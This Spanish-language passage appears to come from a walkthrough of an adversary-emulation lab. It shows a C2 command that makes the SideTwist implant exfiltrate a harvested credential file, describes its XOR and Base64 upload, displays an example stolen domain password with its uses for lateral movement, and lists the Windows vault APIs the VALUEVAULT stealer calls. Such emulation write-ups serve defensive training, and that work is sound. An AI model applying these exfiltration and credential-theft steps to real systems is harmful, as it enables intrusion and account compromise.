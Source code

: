 **Tipos de credenciales extraídas:**
- Credenciales guardadas de Internet Explorer/Edge
- Credenciales de aplicaciones Windows
- Credenciales de red (shares SMB, etc.)
- Credenciales genéricas almacenadas por aplicaciones

**Paso 3: Exfiltración de Resultados**

```bash
./evalsC2client.py --set-task goTb '103 C:\Users\gosta\AppData\Roaming\fsociety.dat'
```

**Desglose del comando:**
- `103`: Código de operación para subida de archivo
- Especifica la ruta de `fsociety.dat` para exfiltración

**Proceso de exfiltración:**

1. SideTwist lee el contenido de `fsociety.dat`
2. Cifra el contenido usando XOR con la misma clave estática
3. Codifica el resultado en Base64
4. Envía el archivo al C2 mediante HTTP POST
5. El C2 recibe y almacena el archivo en `./files/fsociety.dat`

**Paso 4: Análisis de Credenciales Obtenidas**

En el servidor C2, el operador examina las credenciales:

```bash
ls ./files
cat ./files/fsociety.dat
```

**Credenciales descubiertas (ejemplo):**
```
URL: https://waterfalls.boom.box/owa
Username: BOOMBOX\gosta
Password: d0ntGoCH4$ingW8trfalls
```

Este es un hallazgo crítico: la contraseña en texto claro de Gosta permite a los atacantes:
- Autenticarse como Gosta en servicios de red
- Acceder al Outlook Web Access (OWA)
- Utilizar credenciales para movimiento lateral hacia el servidor Exchange
- Potencialmente acceder a otros servicios donde Gosta reutiliza la contraseña

#### Análisis del Malware: VALUEVAULT

**Características Técnicas:**

1. **Lenguaje de Programación:** Go (Golang)
   - Facilita compilación multiplataforma
   - Produce binarios standalone sin dependencias
   - Dificulta análisis estático y reversión

2. **APIs de Windows Utilizadas:**
   ```
   vaultcli.dll:
   - VaultEnumerateVaults
   - VaultOpenVault
   - VaultEnumerateItems
   - VaultGetItem
   - VaultCloseVault
   ```
